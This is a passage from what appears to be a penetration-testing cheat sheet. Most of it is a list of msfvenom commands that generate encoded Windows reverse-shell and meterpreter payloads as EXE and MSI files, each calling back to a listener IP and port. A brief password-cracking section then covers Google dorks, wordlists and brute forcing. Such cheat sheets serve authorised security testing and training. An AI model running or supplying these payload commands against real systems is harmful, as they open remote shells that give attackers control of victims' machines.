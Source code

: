 ```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o /root/Desktop/payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o /root/Desktop/payload.exe

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -o /root/Desktop/payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -o /root/Desktop/payload.exe
```

To generate an `MSI file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o /root/Desktop/payload.msi

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f msi -b \x00\x0a\x0d\xff -o /root/Desktop/payload.msi
```

Bytecode might not work on the first try due to some other bad characters. Trial and error is the key.

So far there is no easy way to generate a DLL nor MSI file with a stageless meterpreter shell due to the size issues.

<p id="4-password-cracking"/>

## 4. Password Cracking

**Google a hash before trying to crack it because you might save yourself a lot of time and trouble.**

Use Google Dorks to find files and within file's metadata a domain username to brute force or use [FOCA](#foca).

**Keep in mind that you might lockout people's accounts.**

Keep in mind that some web forms implement CAPTCHA and/or hidden submission tokens which may prevent you from brute forcing.

You can find a bunch of wordlists located at `/usr/share/seclists/` directory.

Also, check the simple one-time-password lists in [/dict/otp.zip](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/tree/master/dict).

**TO DO: Password spraying.**

**TO DO: Pre-shared key cracking with `ike-scan` and `psk-crack`.**

<p id="4-password-cracking-useful-websites"/>

### Useful Websites
